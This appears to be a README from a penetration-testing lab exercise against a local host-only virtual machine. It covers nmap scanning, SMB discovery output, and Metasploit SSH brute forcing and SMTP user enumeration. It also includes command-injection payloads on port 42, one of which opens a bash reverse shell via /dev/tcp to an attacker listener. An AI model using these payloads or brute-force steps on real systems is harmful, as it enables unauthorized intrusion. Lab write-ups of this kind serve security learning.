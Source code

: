 # aim
Hack a remote machine without having any idea about it 

# Methodology

0) Determine the ip address of the remote machine : using sniffing with wireshark on the suitable network (host-only network in my case)

1) Scan all the ports of the remote machine : to penetrate a system, there should be an open port otherwise It will be difficult to penetrate.

* nmap -sC -sV ip_address (in my case 192.168.123.6)


2) We determine all the informations about the target machine: uses linux OS 

smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.7-Ubuntu)
|   Computer name: lambda-config-1
|   NetBIOS computer name: LAMBDA-CONFIG-1\x00
|   Domain name: \x00
|   FQDN: lambda-config-1
|_  System time: 2021-05-14T12:56:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


3) Determine all the vulnerabilities existing : 

* port 7 : running echo service: not vulnerable 

* port 13 : running time service : not vulnerable

* port 22 : running ssh service : a bit vulnerable

Exploit used : used _msfconsole_ and runned the exploit _auxiliary/scanner/ssh/ssh_login# which is a brute force exploit. It tries all the combinaisons of _usr.txt_ and _password.txt_ in the folder 

* port 42 : running a vulnerable service : Enter a username to see the users last login time: 

Exploit used :	1)"; /bin/sh ; " to run a shell on the tcp connection
	        2) "; /bin/bash -i > /dev/tcp/192.168.123.3/9999  0<&1 ;" to run a reverse shell on the attacker machine on port 9999, port on which the attacker must be listening
	        
* port 25 : running smtp service of version _Postfix smtpd_ : vulnerable

Exploit used : used _msfconsole_ and runned the exploit _auxiliary/scanner /smtp/smtp_enum_ to enumerate the users of the target machine 
and found all the users on the target machine. The users are recorded in _target_users.txt_ file

* port 139 : running netbios-ssn : not vulnerable

but exploit tried : used _msfconsole_ and runned the exploit _exploit/multi/samba/usermap_script_ but It is not vulnerable

# ENJOY
	           
